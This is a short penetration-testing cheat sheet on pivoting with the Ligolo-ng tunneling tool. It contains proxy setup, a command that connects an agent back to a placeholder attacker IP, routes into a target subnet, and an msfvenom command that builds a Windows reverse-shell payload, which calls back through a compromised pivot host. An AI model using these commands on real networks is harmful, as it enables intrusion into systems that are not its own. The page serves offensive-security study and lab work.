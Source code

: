 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - cross-platform
  - ligolo-ng
---
```

# Ligolo-ng

## Setup

Install it according to your package manager

```
$ sudo apt install -y ligolo-ng
```

## Server

TODO: Fill this info

Self-signed certificate.

```
root@hackware-os:~# ./proxy -selfcert
```

Use LetsEncrypt certificates.

```
root@hackware-os:~# ./proxy -autocert
```

```
root@hackware-os:~# ip address show ligolo

root@hackware-os:~# ip tuntap add user root mode tun ligolo

root@hackware-os:~# ip link set ligolo up
```


```
ligolo-ng » certificate_fingerprint
```

## Payload

```
> ./agent -connect <attacker_IP>:11601 -ignore-cert
```

Select an active session.

```
ligolo-ng » session
```

Route the subnet.

```
[Agent : username@computer] » ifconfig
```

```
root@hackware-os:~# ip route add <subnet_target> dev ligolo

root@hackware-os:~# ip route add 192.168.5.0/24 dev ligolo
```

> [!INFO]
> When using `nmap` always specify the flag `-PE` or `--unprivileged` to prevent false positives.

```
ligolo-ng » start
```

### Port Forwarding

```
[Agent : username@computer] » listener_add --addr <compromised_pivot_IP>:8443 --to 127.0.0.1:<local_PORT>
```

Then you can launch a reverse shell handler. Just specify the compromised system's IP and PORT.

```
$ msfvenom -p windows/x64/metepreter/reverse_tcp lhost=<compromised_pivot_IP> lport=8443 -f exe -o payload.exe
```

```
msf > set lport <local_PORT>
```

```
[Agent : username@computer] » listener_list

[Agent : username@computer] » listener_list <agent_ID>
```

---
## References

### Source Repositories

- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### WhiteOakSecurity

- [WhiteOakSecurity: Pivoting VPN Process Tunneling with Ligolo-ng](https://www.whiteoaksecurity.com/blog/pivoting-vpn-process-tunneling-ligolo-ng/)

### 4pfsec

- [4pfsec: Ligolo](https://4pfsec.com/ligolo)